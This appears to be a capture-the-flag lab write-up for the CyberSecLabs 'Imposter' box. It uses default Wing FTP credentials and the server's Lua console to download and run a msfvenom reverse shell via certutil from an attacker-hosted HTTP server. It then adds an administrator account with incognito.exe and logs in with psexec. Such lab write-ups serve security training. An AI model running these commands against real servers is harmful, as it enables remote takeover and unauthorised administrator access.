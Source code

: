 # Cyberseclabs : 172.31.1.20

Go to port 8080 to find the wingftp server. Login with default creds admin:password. Click on console to have a lua console.

Make a msfvenom reverse.exe using:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=443 -f exe > rev.exe
```
Start a listener at port 443
```rlwrap nc -lvnp 443```

Now host a msfvenom reverse.exe on a python server using:
```zsh
python -m SimpleHTTPServer 8000
```
In the console use certutil to upload the file using:

```os.execute('certutil.exe -urlcache -split -f http://10.10.0.40:8000/rev.exe %TEMP%/rev.exe')```

Now run the file :
```os.execute('%TEMP/rev.exe')```

C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service


Wing FTP Server(Wing FTP Server)[C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service] - Auto - Running - No quotes and Space de
tected

Well this is kinda usless coz you cannot start or query or check the service and hence the name of the box is Imposter. We will use it to do some privesc.

> https://github.com/milkdevil/incognito2

```cmd
incognito.exe add_user darkterror abcABCdefDEF@123!
```

```cmd
incognito.exe add_localgroup_user Administrators darkterror
```

```zsh
python psexec.py 'darkterror'@172.31.1.20
```
